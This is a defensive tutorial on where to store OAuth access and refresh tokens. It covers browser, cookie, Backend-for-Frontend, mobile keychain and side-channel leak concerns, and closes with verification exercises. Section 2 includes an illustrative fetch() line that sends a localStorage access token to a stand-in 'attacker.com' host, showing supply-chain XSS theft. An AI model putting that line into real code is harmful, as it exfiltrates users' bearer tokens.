

# 5.2 — Token Storage & Side-Channel Leaks: Browser, Mobile, and BFF Architectures

> **Goal:** Eliminate token theft from client-side environments. Master the trade-offs between `localStorage`, in-memory storage, and cookies, implement the Backend-for-Frontend (BFF) pattern, and safeguard mobile and server environments from side-channel leakage.

> **Prerequisites:** [[01-top-12-attacks|Stage 5.1]].

---

## Table of Contents

1. [The Client Storage Minefield](#1-the-client-storage-minefield)
2. [Browser Storage Breakdown: Why `localStorage` is Broken for Secrets](#2-browser-storage-breakdown-why-localstorage-is-broken-for-secrets)
3. [Hardened Cookies: `HttpOnly`, `SameSite`, and Cookie Prefixes](#3-hardened-cookies-httponly-samesite-and-cookie-prefixes)
4. [The Gold Standard: Backend-for-Frontend (BFF) Architecture](#4-the-gold-standard-backend-for-frontend-bff-architecture)
5. [In-Memory Storage + Web Workers for Pure SPAs](#5-in-memory-storage--web-workers-for-pure-spas)
6. [Mobile Storage: iOS Keychain & Android Keystore](#6-mobile-storage-ios-keychain--android-keystore)
7. [Side-Channel Leak Vectors](#7-side-channel-leak-vectors)
8. [Summary Storage Matrix](#8-summary-storage-matrix)
9. [Exercises & Verification](#9-exercises--verification)
10. [Next Step](#10-next-step)

---

## 1. The Client Storage Minefield

Once an authorization server issues an access token and refresh token, where does the client store them?

If stored incorrectly:

- A single Cross-Site Scripting (XSS) bug in a third-party npm package steals all active tokens.
- A single unencrypted HTTP request or browser redirect leaks credentials via HTTP headers.
- A reverse proxy misconfiguration dumps bearer tokens into plaintext disk logs.

---

## 2. Browser Storage Breakdown: Why `localStorage` is Broken for Secrets

Many frontend tutorials instruct developers:

```javascript
// CATASTROPHIC SECURITY ANTI-PATTERN:
localStorage.setItem("access_token", token);
```

### Why `localStorage` / `sessionStorage` is Unsafe:

1. **Zero Access Control:** Any JavaScript code running on the origin has full read access to `window.localStorage`.
2. **The Modern Supply Chain Risk:** Modern web apps pull in hundreds of npm packages. If a single dependency is compromised, malicious script can execute:
   ```javascript
   fetch(
     "https://attacker.com/steal?t=" + localStorage.getItem("access_token"),
   );
   ```
   The attacker now has the bearer token and can impersonate the user from an external machine without triggering CORS or browser protections.

---

## 3. Hardened Cookies: `HttpOnly`, `SameSite`, and Cookie Prefixes

Cookies are designed to carry authentication credentials across HTTP boundaries with browser-enforced security flags.

### The Required Security Flags:

```http
Set-Cookie: __Host-session=xyz8899aabb;
  Secure;
  HttpOnly;
  SameSite=Strict;
  Path=/;
  Max-Age=3600
```

1. **`HttpOnly`:** Forbids JavaScript (`document.cookie`) from accessing the cookie. Even if your site suffers an XSS vulnerability, the attacker cannot read or export the session token!
2. **`Secure`:** Forces the browser to transmit the cookie exclusively over encrypted TLS (`https://`) connections.
3. **`SameSite=Strict` (or `Lax`):** Controls whether the cookie is attached to cross-site requests, effectively eliminating Cross-Site Request Forgery (CSRF).
4. **The `__Host-` Prefix:** Enforces that the cookie:
   - Must have `Secure` enabled.
   - Must be served from an HTTPS origin.
   - Must have `Path=/`.
   - **Cannot be overwritten by subdomains** (prevents subdomain hijacking attacks).

---

## 4. The Gold Standard: Backend-for-Frontend (BFF) Architecture

The **Backend-for-Frontend (BFF) Pattern** (recommended by IETF OAuth Security BCP) eliminates tokens from the browser entirely:



### Architectural Benefits:

- **Zero Token Footprint in Browser:** Neither access nor refresh tokens exist in the browser DOM, storage, or memory.
- **XSS Containment:** An XSS attack can execute requests on behalf of the user while the session is open, but **cannot exfiltrate the token** to maintain persistent access after the tab is closed.
- **Centralized Token Refresh:** The BFF handles token renewal and refresh rotation transparently.

---

## 5. In-Memory Storage + Web Workers for Pure SPAs

If your architecture has no backend server and must communicate directly with third-party APIs from a pure SPA:

1. **Store Access Tokens in Memory:** Keep the access token in a private JavaScript closure variable. It is never written to disk or storage.
2. **Refresh via Web Worker or DPoP:** Run the refresh exchange inside a dedicated Web Worker that does not share DOM access with the main window.
3. **Accept Refresh on Reload:** When the user refreshes the page, memory is wiped; the client must perform a silent refresh using an `HttpOnly` refresh cookie or OpenID session.

---

## 6. Mobile Storage: iOS Keychain & Android Keystore

Mobile operating systems provide dedicated hardware-backed cryptographic keyrings:

### iOS: Keychain Services

- Keys are protected by the **Secure Enclave** processor.
- Set `kSecAttrAccessibleAfterFirstUnlockThisDeviceOnly` to prevent tokens from syncing to iCloud or being accessible when the device is locked.

### Android: Keystore Provider & EncryptedSharedPreferences

- Use Android's `EncryptedSharedPreferences` backed by the `MasterKey` in the hardware-backed Android Keystore.
- Tokens are encrypted with AES-256-GCM before writing to the application sandbox.

---

## 7. Side-Channel Leak Vectors

Even when tokens are stored securely, they frequently leak through operational side-channels:

| Side Channel                          | Mechanism                                                              | Prevention                                                                  |
| :------------------------------------ | :--------------------------------------------------------------------- | :-------------------------------------------------------------------------- |
| **Reverse Proxy Logs**                | Passing tokens via URL query parameters or debug headers               | Strip Authorization headers from logs; ban query string tokens.             |
| **HTTP Referer Header**               | Clicking external hyperlinks from authenticated views                  | Set `Referrer-Policy: no-referrer` or `strict-origin-when-cross-origin`.    |
| **Error Monitoring (Sentry/Datadog)** | SDK automatically captures request headers during unhandled exceptions | Configure client/server SDKs to scrub `Authorization` and `Cookie` headers. |
| **Browser Extensions**                | Rogue browser extensions reading unencrypted DOM or storage            | Enforce strict Content Security Policy (`CSP`) and use `HttpOnly` cookies.  |
| **Git Repositories**                  | Hardcoded client secrets or test tokens committed to GitHub            | Run pre-commit hooks with `gitleaks` or `trufflehog`.                       |

---

## 8. Summary Storage Matrix

| Client Type             | Access Token Storage              | Refresh Token Storage              | Security Rating           |
| :---------------------- | :-------------------------------- | :--------------------------------- | :------------------------ |
| **Server-Rendered App** | Server Session (Redis)            | Server Session (Redis)             | **Tier 1 (Highest)**      |
| **SPA with BFF**        | Server Session (Redis)            | Server Session (Redis)             | **Tier 1 (Highest)**      |
| **Native Mobile App**   | Memory                            | iOS Keychain / Android Keystore    | **Tier 1 (Highest)**      |
| **Pure SPA**            | In-Memory Variable                | `HttpOnly` Secure Cookie (or none) | **Tier 2 (Acceptable)**   |
| **Any Web App**         | `localStorage` / `sessionStorage` | `localStorage` / `sessionStorage`  | **Tier 4 (UNACCEPTABLE)** |

---

## 9. Exercises & Verification

1. **Verify Cookie Security Attributes:** Inspect your application's session cookies in browser DevTools. Verify that `HttpOnly`, `Secure`, and `SameSite` are active, and verify the name uses the `__Host-` prefix.
2. **Attempt XSS Cookie Read:** Open the browser console and run `console.log(document.cookie)`. Confirm that your authentication session cookie does not appear.
3. **Audit Sentry/Logging Pipeline:** Trigger a test HTTP 500 error in an API endpoint and inspect the resulting Sentry or Datadog log payload. Confirm that Bearer tokens are redacted.

---

## 10. Next Step

Now that token storage and leak mitigation are locked down, we examine the cryptographic foundations of identity: **Cryptographic Hardening & Zero-Downtime Key Rotation**.

→ [[03-crypto-hardening|Stage 5.3 — Cryptographic Hardening & Zero-Downtime Key Rotation]]
